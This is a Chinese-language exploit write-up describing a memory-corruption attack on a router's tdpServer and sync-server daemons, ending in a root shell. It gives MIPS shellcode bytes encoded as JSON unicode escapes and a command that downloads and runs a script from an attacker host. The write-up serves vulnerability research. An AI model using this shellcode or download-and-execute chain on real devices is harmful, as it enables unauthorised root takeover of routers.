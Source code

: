 
## 漏洞攻击

首先需要绕过地址空间随机化 ASLR，由于保存的寄存器不会被 payload 数据覆盖，而是被指向受控数据的指针覆盖。这意味着当\\$ra 从堆栈中恢复时，它将自动指向被控数据，由于堆段权限是 RWX，因此可以直接执行代码，无需任何其他方式即可绕过 ASLR。从动态分析来看，$ra 是从指向 mac 字段的指针还原的，这意味着可以将 shellcode 放入其中以查看其执行情况。

下一步是完成溢出，由于 JSON 字符串中发送的 MAC 地址必须通过 JSON 语法和格式检查器过滤，因此 payload 的每个字符限制在 \[0x00-0xff\] 范围的一小部分，但 tdpServer 将 mac 地址的大小限制为 17 个字节，这非常短，因为 MIPS 指令的长度为 4 个字节。

通过研究 JSON 解析器，可以发现像\\u00xx 这样的 unicode 编码可以被用来写入共享内存，范围包括\[0x01-0xff\]中的字节，能够有效并扩大了发送到共享内存中数据，剩下的唯一限制是避免空字节。

sync-server 在能够在已知地址中引入了 system（），原因是二进制文件是在没有 PIE 的情况下编译的，所以操作码不会包含任何空字节：

```plain
0C 10 07 14 jal system
```

因此，mac 地址可以以“\\u000c\\u0010\\u0007\\u0014”开头。要运行的命令的地址应放在 \\$a 0 寄存器中（由于 MIPS 中的推测调用，该地址位于 jal 系统之后）。再次触发函数发生错误时，寄存器\\$s 0 到\\$s 7 从堆栈恢复，并且堆栈中填满了指向 ip 和 mac 的指针。寄存器\\$s0 到\\$s7 将包含指向字符串的指针，这正是本文所需要的，\\$s2 寄存器指向一个 ip 值—说明可以使用不包含空字节的操作码将 \\$s 2 移动到 \\$a 0：

```plain
02 40 20 25 move $a0,$s2
```

之后，$a0 表示完全被控数据，所以使用的最终 shellcode 是“\\u000c\\u0010\\u0007\\u0014\\u0002\\u0040\\u0020\\u0025”，这样就可以通过同步服务器 sync-server 执行命令，并且可以启动任意命令。实际上，每 50 个 mac 地址中的每一个地址上都会附加一个唯一 ID，因为 tdpServer 有一种重复数据删除例程，有了这个唯一的 ID，保证所有数据都是唯一的，并推送到共享内存。所以，“cmd;num\_id”被用作 ip 值，原因是为了避免消除重复数据。

## 在 TDDP 的帮助下获取远程 SHELL

有漏洞的函数称为“async”，据观察，它每 80 秒调用一次，所以攻击方必须发送数据，然后等待 80 秒，因为没有进行任何方法来加快这一进程。最后一个问题仍然存在：如何获得远程 shell？由于只能启动一个命令，而 sync-server 会因为我们的 shellcode 而崩溃。命令的长度很短，如果使用 id，则为 12 个字节，如果为“cmd;num\_id”，最多 15 个字节。由于没有 telnetd 或 netcat，此时最好的方法是启动 tddp 二进制文件，这是一个默认未启动的调试守护程序，在[https://mjg59.dreamwidth.org/51672.html被提起过。](https://mjg59.dreamwidth.org/51672.html%E8%A2%AB%E6%8F%90%E8%B5%B7%E8%BF%87%E3%80%82)

将脚本和漏洞利用调整，并在目标设备上执行带有 Lua 绑定 shell 的命令注入。因为攻击受到注入命令大小的限制，但有足够的空间来下载 shell 脚本并执行它：

```plain
wget http://attacker_ip:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh
```

最后，攻击方就会得到一个 shell。由于所有守护程序 daemons 都以 root 身份运行（tdpServer、sync-server 和 tddp），所以攻击方可以在设备上获得最高级别的权限。

## 漏洞利用

将漏洞利用代码拆分为下面 4 个文件：

-   exploit.sh：HTTP 服务器的实例化、两个漏洞的编排等。
-   tdpwn.py：众多协会
-   tdp.py：命令注入
-   pwn.sh：需要在路由器上执行的命令（在 Lua 绑定 shell）

将 IP 地址设置为 192.168.0.100 后，运行 exploit.sh 等待足够的时间，会得到一个 shell：
